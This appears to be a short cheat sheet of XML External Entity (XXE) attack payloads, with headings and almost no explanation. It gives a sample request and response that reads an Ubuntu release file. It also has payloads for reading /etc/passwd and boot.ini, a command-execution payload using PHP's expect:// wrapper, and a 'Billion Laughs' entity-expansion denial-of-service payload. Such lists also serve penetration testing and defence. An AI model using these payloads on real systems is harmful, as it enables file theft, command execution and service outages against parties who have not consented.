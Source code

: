 XXE Attack Example
---------------
Request
```xml
POST http://example.com/xml HTTP/1.1

<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "file:///etc/lsb-release">
]>
<foo>
  &bar;
</foo>
```
Response
```
HTTP/1.0 200 OK
 
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04 LTS"
```

Read File
---------
```xml
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><change-log><text>&xxe;</text></change-log>
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "<file:///c:/boot.ini>"> ]><change-log><text>&xxe;</text></change-log>
```

Execute Code (Requires the "expect" php module to be loaded - worth a try...)
-----------------------------------------------------------------------------
```xml
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "expect://id" > ]><change-log><text>Hello World&xxe;</text></change-log>
```


Billion Laughs
---------------
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<MobileContext><Parameter><Name>&lol9;</Name></Parameter></MobileContext>
```
